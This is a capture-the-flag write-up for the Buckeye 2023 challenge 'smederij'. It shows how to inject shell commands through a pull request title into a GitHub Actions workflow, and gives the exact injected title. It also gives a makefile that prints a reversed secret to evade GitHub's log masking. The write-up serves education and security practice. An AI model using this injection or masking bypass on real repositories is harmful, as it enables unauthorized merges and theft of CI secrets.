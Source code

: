 # Buckeye CTF
These are write-ups for Buckeye 2023 CTF

## smederij
This CTF primarily works through exploiting shell injection with github actions.
### goal of the exploit
What we want to do is leak the flag from build.yaml, but we do not have access to the repository in order to run actions. The only thing we can do is make pull requests to the repository, which run `label.yaml`.
### the exploit
In the first pass, github replaces certain locations in `label.yaml` with the name of the pull request. This is basic text replacement with no sanitization, so we can name our pull request in a way that injects the commands to merge our pull request and run a build action. Because `label.yaml` runs `gh` commands directly, we know it has the ability to use the `gh` command to merge the pull request automatically.
The next step is to leak the flag during the build process. This is done through the makefile, reversing the $FLAG variable before we print it to get around githubs automatic filter on printing secrets in build scripts.
### final pull request
the title of the pull request was
```
update"; gh pr merge <PR number> --merge; gh workflow run build.yaml; "
```
I also changed the makefile:
```sh
CC=gcc
CFLAGS=-I.

smith.o: smith.c
	echo "${FLAG}" | rev
	$(CC) -c -o $@ $< $(CFLAGS) -DFLAG='"${FLAG}"'

smith: smith.o
	$(CC) -o $@ smith.o $(CFLAGS)

.PHONY: clean

clean:
	rm smith *.o
```
Make the pull request, unreverse the output of the build that happens, and then you have the flag.